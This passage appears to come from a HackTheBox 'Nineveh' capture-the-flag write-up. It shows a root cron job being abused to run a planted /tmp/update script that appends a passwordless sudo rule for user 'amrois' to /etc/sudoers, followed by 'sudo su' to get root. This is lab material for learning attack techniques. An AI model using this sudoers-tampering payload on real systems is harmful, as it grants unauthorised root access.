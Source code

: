 ```sh
echo 'chmod 777 /etc/sudoers && echo "amrois ALL=NOPASSWD: ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update
cat update
ls -l
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-16-HackTheBox-Nineveh/2021-12-16-HackTheBox-Nineveh%2001:27:32.png)

4. Again I’d wait for the cron job to execute as root, then log in as root using 'sudo su'

```sh
sudo su
whoami
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-16-HackTheBox-Nineveh/2021-12-16-HackTheBox-Nineveh%2001:27:53.png)

Got it.
